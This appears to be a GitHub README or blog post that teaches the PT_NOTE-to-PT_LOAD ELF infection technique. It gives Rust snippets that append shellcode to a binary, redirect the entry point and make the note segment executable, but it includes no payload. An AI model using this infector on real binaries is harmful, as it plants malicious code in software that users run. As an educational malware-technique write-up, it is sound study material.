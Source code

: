 # PT_NOTE to PT_LOAD ELF injector example

I read about a technique on the [SymbolCrash blog](https://www.symbolcrash.com/2019/03/27/pt_note-to-pt_load-injection-in-elf/) for injecting shellcode into an ELF binary by converting a `PT_NOTE` section in the Program Headers into a `PT_LOAD` section. I thought this sounded interesting and I didn't know a lot about ELF, so I took it as an opportunity to learn many new things at once.

For this project I created a small, very incomplete library I called [mental_elf](https://github.com/d3npa/mental-elf) which makes parsing and writing ELF and program headers easier. The code therein is very primitive and easy to understand, so I won't talk about it any more here. Let's focus on the infection technique instead :)

## Overview

As implied by the title, this infection technique involves converting an ELF's `PT_NOTE` program header into a `PT_LOAD` in order to run shellcode. The inputs to our program are therefore:

- an ELF file to infect
- some shellcode to inject

Note: this example does not support Position Independent Executables (PIE). I am disabling it by passing `-C relocation-model=static` to rustc when compiling my target program. 

Note (2): this technique does not work on Go binaries because the Go runtime makes use of and therefore requires a valid `PT_NOTE` section and header.

Here is a note about the Note Section in the [Official ELF Specification](http://www.skyfree.org/linux/references/ELF_Format.pdf):

> Note information is optional.  The presence of note information does not affect a program’s ABI conformance, provided the information does not affect the program’s execution behavior.  Otherwise, the program does not conform to the ABI and has undefined behavior

This infection technique requires a `PT_NOTE` section to be present in the ELF file, and involves modifying two structures: the ELF header and Program Headers (where the `PT_NOTE` program header itself resides). 

We can append shellcode to the end of the binary and jump there at the start by modifying the program entry point in the ELF header. To make sure the shellcode is loaded, we can change the otherwise unused `PT_NOTE` section to a `PT_LOAD` section which will make sure the shellcode is loaded at the address we enter.

## Shellcode

This example uses the Netwide ASseMbler (NASM) to prepare shellcode to inject, and so installing `nasm` is required to run this example. 

Note: Rust binaries seem to need `rdx` to be 0 on entry or they will crash during cleanup.

The shellcode needs to be patched so it can jump back to the host's original entry point after finishing its tasks. To make patching easier, I designed this shellcode so it would run top-to-bottom and run off the end of the file, which allows us to patch it by simply appending a jump instruction. In x86_64, the `jmp` parameter cannot take a 64bit address to jump to, so we must pass through the `rax` register to make arbitrary jumps. The rust snippet below patches a `shellcode` byte vector to append a jump to `entry_point`:

```rust
fn patch_jump(shellcode: &mut Vec<u8>, entry_point: u64) {
    // Store entry_point in rax
    shellcode.extend_from_slice(&[0x48u8, 0xb8u8]);
    shellcode.extend_from_slice(&entry_point.to_ne_bytes());
    // Jump to address in rax
    shellcode.extend_from_slice(&[0xffu8, 0xe0u8]);
}
```

With this, we have a piece of shellcode that can run at the start of the program and pass control back to the host's original entry point. 

## Infection

To ensure the shellcode runs and returns correctly, the ELF header and PT_NOTE program headers must be edited. The ELF header is where we tell the loader where to jump to start the program (entry point). The PT_NOTE header will be turned into a PT_LOAD header which loads the shellcode into virtual memory with the appropriate permissions.

The headers are read from the elf file using the mental_elf library:

```rust
// Parse ELF and program headers
let mut elf_header = mental_elf::read_elf64_header(&mut elf_fd)?;
let mut program_headers = mental_elf::read_elf64_program_headers(
    &mut elf_fd, 
    elf_header.e_phoff, 
    elf_header.e_phnum,
)?;
```

After loading the ELF file, the shellcode is patched to jump back to the ELF's original entry point:

```rust
// Patch the shellcode to jump to the original entry point after finishing
patch_jump(&mut shellcode, elf_header.e_entry);
```

The section loaded by `PT_LOAD` will be page-aligned, and the shellcode will not be loaded at a nice round address like `0xc00000000`. To make the coding experience easier, the offset of the shellcode in the file is used to derive the address in virtual memory the shellcode will end up. Below, we retrieve the offset of the shellcode by subtracting the shellcode length from the total file length (this snippet runs after appending the shellcode to the file). 

```rust
// Calculate offsets used to patch the ELF and program headers
let sc_len = shellcode.len() as u64;
let file_offset = elf_fd.metadata()?.len() - sc_len;
let memory_offset = 0xc00000000 + file_offset;
```

`memory_offset` will become the new ELF entry point.

```rust
// Patch the ELF header to start at the shellcode
elf_header.e_entry = memory_offset;
```

When we patch the `PT_NOTE` header, we need to write in all the details the loader needs to know so it can load the shellcode, including segment permissions, offsets, length etc.

```rust
// Look for a PT_NOTE section
for phdr in &mut program_headers {
    if phdr.p_type == PT_NOTE {
        // Convert to a PT_LOAD section with values to load shellcode
        println!("Found PT_NOTE section; converting to PT_LOAD");
        phdr.p_type = PT_LOAD;
        phdr.p_flags = PF_R | PF_X;
        phdr.p_offset = file_offset;
        phdr.p_vaddr = memory_offset;
        phdr.p_memsz += sc_len as u64;
        phdr.p_filesz += sc_len as u64;
        break;
    }
}
```

Lastly the changes to the headers are committed back into the ELF file.

```rust
// Commit changes to the program and ELF headers
mental_elf::write_elf64_program_headers(
    &mut elf_fd, 
    elf_header.e_phoff,
    elf_header.e_phnum,
    program_headers,
)?;
mental_elf::write_elf64_header(&mut elf_fd, elf_header)?;
```

After being infected, an ELF file's entry point will point to the virtual memory offset the shellcode is loaded to, as defined by our crafted `PT_LOAD` program header. Because the shellcode was patched with a jump instruction back to the original entry point, the program will run normally after the shellcode has run.

## Conclusion

This was a very fun project where I learned so much about ELF, parsing binary structures in Rust, and viruses in general. Thanks to netspooky, sblip, and others at tmp.out for teaching me, helping me debug and motivating me to do this project! <3